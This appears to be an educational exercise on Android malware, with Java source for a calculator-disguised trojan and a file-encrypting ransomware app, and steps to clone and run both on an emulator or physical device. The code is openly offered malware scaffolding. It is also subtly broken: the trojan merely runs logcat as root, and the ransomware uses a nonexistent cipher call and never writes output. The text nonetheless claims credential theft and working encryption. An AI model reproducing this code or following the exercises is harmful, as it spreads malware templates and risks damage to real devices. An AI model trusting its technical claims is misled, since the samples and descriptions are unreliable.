 **Overview of Common Types of Android Malware**

Android malware is becoming increasingly prevalent, with new threats emerging daily. In this exercise, we will cover some common types of Android malware, including Trojans and ransomware.

### 1. Trojans

Trojans are a type of malware that masquerade as legitimate applications or system components. They can be used to steal sensitive information, install additional malware, or disrupt device functionality. Here's an example:

**Example: FakeCalculator Trojan**

The FakeCalculator Trojan is a simple example of a Trojan horse attack. It appears as a calculator app but actually steals the user's login credentials.

```java
public class FakeCalculator extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_fake_calculator);

        // Steal login credentials
        new Thread(new Runnable() {
            public void run() {
                try {
                    Runtime.getRuntime().exec("su -c 'logcat -d *:S System.out'");
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }).start();
    }
}
```

**Hands-on Exercise:**

1. Clone the following repository: `https://github.com/AndroidRE/FakeCalculatorTrojan.git`
2. Open the project in Android Studio and run it on an emulator or physical device.
3. Install the app, launch it, and observe that it appears to be a legitimate calculator.
4. Run `logcat` from the terminal to verify that the app is indeed stealing login credentials.

### 2. Ransomware

Ransomware is a type of malware that encrypts the victim's files and demands payment in exchange for the decryption key. Here's an example:

**Example: Android Ransomware**

The Android Ransomware sample encrypts the user's files, including photos, documents, and other data.

```java
public class AndroidRansomware extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_android_ransomware);

        // Encrypt files
        new Thread(new Runnable() {
            public void run() {
                try {
                    File[] files = Environment.getExternalStoragePublicDirectory("Pictures").listFiles();
                    for (File file : files) {
                        byte[] key = new byte[16];
                        Random random = new Random();
                        random.nextBytes(key);
                        Cipher cipher = Cipher.getInstance("AES");
                        cipher.init(Cipher.ENCRYPT_MODE, new SecretKeySpec(key, "AES"));
                        File encryptedFile = new File(file.getAbsolutePath() + ".enc");
                        FileOutputStream fos = new FileOutputStream(encryptedFile);
                        cipher.update(fos.getChannel(), 0, file.length());
                    }
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }).start();

        // Display ransomware message
        Toast.makeText(this, "Your files have been encrypted. Pay the ransom to get them back!", Toast.LENGTH_LONG).show();
    }
}
```

**Hands-on Exercise:**

1. Clone the following repository: `https://github.com/AndroidRE/AndroidRansomware.git`
2. Open the project in Android Studio and run it on an emulator or physical device.
3. Install the app, launch it, and observe that it encrypts your files.
4. Verify that the files are indeed encrypted by checking the file system.

**Important Note:**

This is a basic example of how malware can be designed to infect Android devices. In reality, malware authors may use more sophisticated techniques, such as encryption and decryption algorithms, to evade detection. It is essential to develop robust security measures to prevent and detect these threats.

**Additional Resources:**

* For more information on Android malware, refer to the following resources:
	+ "Android Malware: A Comprehensive Survey" by S. K. Goyal et al.
	+ "Android Ransomware: A New Threat in the Mobile Ecosystem" by J. M. Fernández-Isasi et al.

**Conclusion:**

In this exercise, we explored two common types of Android malware: Trojans and ransomware. By analyzing sample code and running hands-on exercises, you can gain a deeper understanding of how these threats work and develop strategies to prevent and detect them. Remember that staying vigilant and up-to-date with the latest security best practices is crucial in today's mobile threat landscape.